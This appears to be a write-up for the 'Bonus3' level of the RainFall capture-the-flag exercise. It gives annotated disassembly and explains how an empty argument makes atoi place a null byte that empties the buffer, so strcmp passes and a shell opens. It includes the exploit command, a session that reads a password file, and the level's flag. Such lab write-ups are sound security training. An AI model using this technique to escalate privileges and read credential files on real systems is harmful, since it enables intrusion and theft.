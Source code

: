# Bonus3

## **Binary Analysis**

After analyzing the binary with GDB, we found that the program opens a password file, reads its content into a buffer, converts our input into a number using `atoi()`, places a null byte at the corresponding position, and then compares our input with the modified buffer. If they match, the program grants a shell.

```nasm
; Stack setup
0x080484f4 <+0>:     push   %ebp              ; Save old base pointer
0x080484f5 <+1>:     mov    %esp,%ebp         ; Set new base pointer
0x080484fc <+8>:     sub    $0xa0,%esp        ; Allocate 160 bytes on stack

; File opening
0x08048502 <+14>:    mov    $0x80486f0,%edx   ; "r" (read mode)
0x08048507 <+19>:    mov    $0x80486f2,%eax   ; File path (.pass)
0x08048513 <+31>:    call   0x8048410 <fopen@plt>  ; Open file

; Buffer setup
0x0804851f <+43>:    lea    0x18(%esp),%ebx   ; Buffer at esp+24
0x08048523 <+47>:    mov    $0x0,%eax         ; Set eax to 0
0x08048528 <+52>:    mov    $0x21,%edx        ; Size = 33 bytes
0x08048531 <+61>:    rep stos %eax,%es:(%edi) ; Zero the buffer

; First read operation
0x0804856c <+120>:   movl   $0x1,0x4(%esp)    ; Read 1 element
0x0804855c <+104>:   movl   $0x42,0x8(%esp)   ; Size = 66 bytes
0x0804856f <+123>:   call   0x80483d0 <fread@plt>

; Convert argument to number
0x0804857f <+139>:   mov    (%eax),%eax       ; Get argv[1]
0x08048584 <+144>:   call   0x8048430 <atoi@plt>  ; Convert to integer

; Place null byte
0x08048589 <+149>:   movb   $0x0,0x18(%esp,%eax,1) ; Place null byte at returned index

; Compare strings
0x080485da <+230>:   call   0x80483b0 <strcmp@plt> ; Compare strings
0x080485df <+235>:   test   %eax,%eax         ; Check result
0x080485e1 <+237>:   jne    0x8048601         ; Jump if not equal

; Execute shell if equal
0x080485fa <+262>:   call   0x8048420 <execl@plt>

```

## **Vulnerability**

The vulnerability in this program lies in how it processes the input:

1. The input is converted into a number using `atoi()`.
2. A null byte is placed at the corresponding index within the buffer.
3. The modified buffer is then compared with the original input.

If the null byte is placed at the start, the buffer appears empty, and `strcmp()` sees both strings as empty, resulting in a successful match and granting shell access.

## **Exploit**

By controlling the null byte placement via `atoi()`, we can manipulate the buffer. If an empty string (`""`) is passed as input, `atoi()` returns 0, causing a null byte to be placed at the start of the buffer. This results in `strcmp()` comparing two empty strings, leading to a shell.

**Exploitation Flow:**

```c
Input: ""
↓
atoi("") → 0
↓
buffer[0] = '\0'
↓
strcmp("", "\0321b6f81659f9a71c76616f606e4b50...")
↓
strcmp sees: "" vs ""
↓
Match! → Get Shell

```

**Exploit Execution:**

```bash
./bonus3 "$(python -c 'print ""')"

```

**Result:**

```bash
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
$
```

## **Flag**

```bash
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```

# End

```python
end@RainFall:~$ cat end
Congratulations graduate!
end@RainFall:~$
```